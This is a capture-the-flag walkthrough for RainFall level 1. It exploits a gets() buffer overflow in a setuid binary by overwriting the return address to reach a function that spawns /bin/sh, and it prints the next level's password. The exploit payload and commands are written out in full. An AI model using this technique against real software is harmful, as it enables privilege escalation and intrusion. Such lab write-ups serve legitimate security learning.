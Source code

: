 # 🧩 Level 1 - Walkthrough

## 📄 Listing Files

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```

- 🔍 The directory contains an executable file: level1.

## 🧪 Testing the Program
```bash
level1@RainFall:~$ ./level1
a
level1@RainFall:~$ ./level1 test
423
level1@RainFall:~$
```
- The program waits for input and exits after pressing Enter.
- It does not crash, but just prints some numbers.

## 🐞 Static Analysis in GDB
- The binary contains two main functions: main and run.
- The run function:
- - Uses fwrite to display:
``` scss
Good... Wait what?
```
- - Then executes /bin/sh using system.
- The main function:
- - Uses gets() for user input, which is vulnerable to buffer overflow.

## 💣 Buffer Overflow Exploit
👉 The idea: Overwrite the return address (RET) in main() to jump to run().

## 🎯 Find EIP Offset
```bash
level1@RainFall:~$ python -c 'print "a" * 80' > /tmp/exploit
level1@RainFall:~$ gdb ./level1
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

## 🛠️ Build the Exploit Payload
- Padding: "a" * 76
- Address of run(): 0x08048444 (little-endian: \x44\x84\x04\x08)
```bash
level1@RainFall:~$ python -c 'print "a" * 76 + "\\x44\\x84\\x04\\x08"' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- 😬 The shell exits immediately because it's non-interactive.

## 🪄 Trick to Keep Shell Open
Use cat /tmp/exploit - to keep stdin open:
```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
```
🎉 Success! Logged in as level2.

## 🔐 Switching User
```bash
level1@RainFall:~$ su level2
Password:
...
level2@RainFall:~$
```

## ✅ Level 1 Passed!
```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
